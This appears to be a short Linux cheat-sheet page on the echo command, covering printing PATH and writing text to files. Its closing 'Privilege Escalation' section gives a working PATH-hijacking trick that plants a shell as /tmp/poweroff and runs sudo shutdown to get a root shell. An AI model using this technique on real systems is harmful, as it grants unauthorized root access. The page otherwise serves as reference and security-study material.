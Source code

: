 ```yaml
---
title: Echo
desc: In addition to the output of string, there are other uses such as the privileges escalation.
tags: [Linux, PrivEsc]
alts: []
website:
render_with_liquid: false
---
```


## Directories specified by PATH

```sh
echo $PATH
```

<br />

## Add text to file

```sh
# Add text
echo "Hello World" >> sample.txt

# Overwrite (original contents disappears)
echo "Hello World" > sample.txt

# Enable escape
echo -e "Hello\nWorld" > sample.txt

# No newline
echo -n 'hello world' > sample.txt
```

<br />

## Privilege Escalation

```sh
# option 1
echo /bin/sh > /tmp/poweroff
# option 2
echo /bin/bash > /tmp/poweroff

chmod +x /tmp/poweroff
export PATH=/tmp:$PATH

# Some SUID command
sudo /usr/sbin/shutdown

# Then you are root user
root>
```
